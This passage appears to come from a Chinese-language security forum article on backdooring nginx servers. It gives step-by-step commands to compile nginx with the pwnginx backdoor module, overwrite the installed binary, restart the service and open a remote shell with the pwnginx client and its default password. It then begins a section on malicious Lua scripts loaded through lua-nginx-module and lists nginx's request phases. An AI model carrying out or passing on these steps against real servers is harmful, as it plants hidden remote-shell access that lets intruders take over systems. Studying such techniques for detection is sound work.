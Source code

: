 ### 编译后门

在机器上编辑nginx的编译源文件，在src/core/nginx.c中的`configure arguments:`在后面添加`--prefix=/usr/local/nginx\\n`，指定的是nginx安装的目录，如果当前机器存在nginx安装目录也可覆盖

![Untitled2.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-1eb908ef2a4e745a3fabc35a8b0e0643cd102eb5.png)

此时重新编译nginx并添加后门module模块

```cpp
./configure --prefix=/usr/local/nginx/ --add-module=/tools/pwnginx-master/module
make
```

此时将新编译好的nginx覆盖原有的nginx

```cpp
cp -f objs/nginx /usr/local/nginx/sbin/nginx
```

![Untitled4.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-cbc6723b828b805208f3d1597c8c4cd3ff00736a.png)

运用该后门需要重新启动nginx

```cpp
killall nginx
/usr/local/nginx/sbin/nginx
```

此时就可以利用pwnginx客户端进行后门连接

`./pwnginx shell 目标机 nginx端口 密码` 默认密码是t57root，密码的配置文件在module\\config.h文件夹中，可在重新编译nginx前修改密码

![Untitled3.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-854fd7c34521800051166beb43e89566cbc7cfa8.png)

lua后门
-----

nginx的`lua-nginx-module`可以加载lua脚本，可以利用lua脚本来增强nginx的功能。当前lua+nginx集成的中间件有OpenResty和Tengine，而lua在nginx的作用可以是处理高并发，也可以用作waf、代理等作用，攻击者可将恶意的lua脚本加载到nginx，从而可以执行任意系统命令、接管系统

### nginx处理流程

先来了解下nginx的处理阶段

![Untitled5.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-62ac2fe8a1059440a5ccad35eb51502a794427fa.png)

常用到的阶段如下：

1. init\_by\_lua\*: 启动阶段初始化
2. set\_by\_lua\*: 流程分之处理判断变量初始化
3. rewrite\_by\_lua\*: 转发、重定向、缓存等功能(例如特定请求代理到外网)
4. access\_by\_lua\*: IP准入、接口权限等情况集中处理(例如配合iptable完成简单防火墙)
5. content\_by\_lua\*: 内容生成
6. header\_filter\_by\_lua\*: 应答HTTP过滤处理(例如添加头部信息)
7. body\_filter\_by\_lua\*: 应答BODY过滤处理(例如完成应答内容统一成大写)
8. log\_by\_lua\*: 回话完成后本地异步完成日志记录(日志可以记录在本地，还可以同步到其他机器)
